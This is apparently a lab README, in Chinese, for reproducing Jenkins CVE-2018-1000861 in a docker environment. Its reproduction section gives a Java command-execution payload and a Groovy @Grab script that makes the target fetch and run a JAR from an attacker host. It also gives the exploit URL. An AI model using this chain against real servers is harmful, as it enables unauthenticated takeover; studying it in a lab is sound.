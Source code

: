 # Jenkins远程命令执行漏洞（CVE-2018-1000861）

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

## 漏洞复现

参考<https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC>，修改其中Payload.java为我们自己的POC：

```java
public class Payload {
  public Payload() {
    try {
      String payload = "touch /tmp/success";
      String[] cmds = { "/bin/bash", "-c", payload };
      java.lang.Runtime.getRuntime().exec(cmds);
    } catch (Exception e) {
    }
  }
}
```

编译成`payload-1.jar`。将其放在攻击者的服务器上，路径为`http://<EXPLOIT HOST>/package/payload/1/payload-1.jar`。

然后编写如下Groovy脚本，其中`http://<EXPLOIT HOST>`是攻击者服务器：

```
@GrabConfig(disableChecksums=true)
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')
@Grab(group='package', module='payload', version='1')
import Payload;
```

将这段代码URL编码后，作为如下URL中value参数的值`http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=<groovy-code>`，请求：

![](1.png)

此时，攻击者服务器应该收到了两个请求：

![](2.png)

目标会先请求POM文件`/package/payload/1/payload-1.pom`，如果这个文件不存在，则会请求`/package/payload/1/payload-1.jar`，也就是我们的Payload。

最后，我们的`payload-1.jar`被加载，成功执行命令：

![](3.png)
